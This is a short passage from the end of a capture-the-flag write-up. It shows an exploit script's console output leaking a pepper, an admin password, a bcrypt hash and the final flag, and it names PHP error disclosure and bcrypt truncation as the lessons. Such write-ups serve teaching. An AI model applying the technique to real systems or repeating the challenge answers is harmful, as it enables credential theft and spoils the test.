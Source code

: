 ```shell
[*] Trying password: PmVG7xe9ECBSgLUAguestAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA8oC7mIiDFw4hQv2e
[+] Correct password: PmVG7xe9ECBSgLUAguestAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA8oC7mIiDFw4hQv2e
[+] Leaked pepper2: 8oC7mIiDFw4hQv2e
[+] Leaked admin password: KeTzkrRuESlhd1V
[*] Try to get the flag... Full password: PmVG7xe9ECBSgLUAadminKeTzkrRuESlhd1V8oC7mIiDFw4hQv2e
[*] Admin hash: $2y$10$1eMjR5I6TBPHp4fkRNi4jetXFg2bPrby4cdft5U.8e0tXJdeM3xMa
[+] Flag: TSGCTF{Pepper. The ultimate layer of security for your meals.}
```

- **Flag: `TSGCTF{Pepper. The ultimate layer of security for your meals.}`**

## Conclusion

What we've learned:

1. Information disclosure via PHP errors and Bcrypt truncation